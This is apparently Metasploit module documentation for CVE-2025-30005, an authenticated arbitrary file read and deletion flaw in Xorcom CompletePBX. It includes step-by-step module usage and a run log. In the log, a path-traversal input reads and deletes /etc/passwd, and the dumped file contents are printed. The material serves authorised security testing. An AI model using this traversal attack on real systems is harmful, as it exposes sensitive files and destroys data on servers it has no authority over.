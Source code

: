 ## Vulnerable Application

This Metasploit module exploits an **Authenticated Arbitrary File Read and Deletion** vulnerability in **Xorcom CompletePBX <= 5.2.35**.
The issue arises due to improper validation of the `systemDataFileName` parameter in the `diagnostics` module,
allowing an attacker to retrieve arbitrary files from the system.

Additionally, this vulnerability **automatically deletes the requested file** after being accessed,
leading to potential data loss on the target.

The vulnerability is identified as **CVE-2025-30005**.

### Setup

Download the ova file here: [](https://archive.org/details/completepbx-5-2-27-vuln)

## Verification Steps

1. Deploy a vulnerable instance of **Xorcom CompletePBX <= 5.2.35**.
2. Launch **Metasploit Framework**.
3. Use the module:
```
use auxiliary/admin/http/xorcom_completepbx_diagnostics_file_read
```
4. Set the **target host**:
```
set RHOSTS [TARGET_IP]
```
5. Set authentication credentials:
```
set USERNAME [VALID_ADMIN_USERNAME]
set PASSWORD [VALID_ADMIN_PASSWORD]
```
6. Specify the file to read (before deletion):
```
set TARGETFILE /etc/passwd
```
7. Execute the module:
```
run
```
8. If successful, the contents of the specified file will be displayed before its deletion.

## Options

### USERNAME

Admin username for authentication.

### PASSWORD

Admin password for authentication.

### TARGETFILE

Path of the file to retrieve (**before automatic deletion**).

### DefangedMode

Safety switch (true by default). Set to **false** to actually perform the read-and-delete operation.

## Scenarios

### Successful Exploitation Against a Vulnerable CompletePBX Instance

**Setup**:

- **Target**: Xorcom CompletePBX <= 5.2.35
- **Attacker**: Metasploit Framework instance

**Steps**:

```bash
msf6 auxiliary(scanner/http/xorcom_completepbx_diagnostics_file_read) > run http://192.168.1.32/
[*] Running module against 192.168.1.32
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[-] Auxiliary aborted due to failure: bad-config: 
Are you *SURE* you want to execute the module against the target?
Running this module will attempt to read and delete the file
specified by TARGETFILE on the remote system.

If you have explicit authorisation, re-run with:
    set DefangedMode false

[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/xorcom_completepbx_diagnostics_file_read) > set DefangedMode false
DefangedMode => false
msf6 auxiliary(scanner/http/xorcom_completepbx_diagnostics_file_read) > run http://192.168.1.32/
[*] Running module against 192.168.1.32
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[!] This exploit WILL delete the target file if permissions allow.
[*] Attempting to read file: ../../../../../../../../../../..//etc/passwd
[*] ZIP file received, attempting to list files
[*] Files inside ZIP archive:
 - ../../../../../../../../../../..//etc/passwd
 - full_20250716_191240
 - audit_20250716_191240.log
[+] Content of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
pbx:x:1000:1000:,,,:/home/pbx:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:104:113::/var/spool/postfix:/usr/sbin/nologin
tcpdump:x:105:115::/nonexistent:/usr/sbin/nologin
Debian-snmp:x:106:116::/var/lib/snmp:/bin/false
_chrony:x:107:117:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
asterisk:x:109:118:Asterisk PBX daemon,,,:/var/lib/asterisk:/usr/sbin/nologin
cc-cloud-rec:x:999:995::/var/lib/cc-cloud-rec:/sbin/nologin

[*] Auxiliary module execution completed
```

### Impact

- This vulnerability grants **file read access**, but also **automatically deletes** the retrieved file.
- Attackers can extract sensitive data (e.g., user credentials) while simultaneously causing **data loss** on the system.

This module is designed to **demonstrate and automate** the exploitation of this issue using the Metasploit framework.
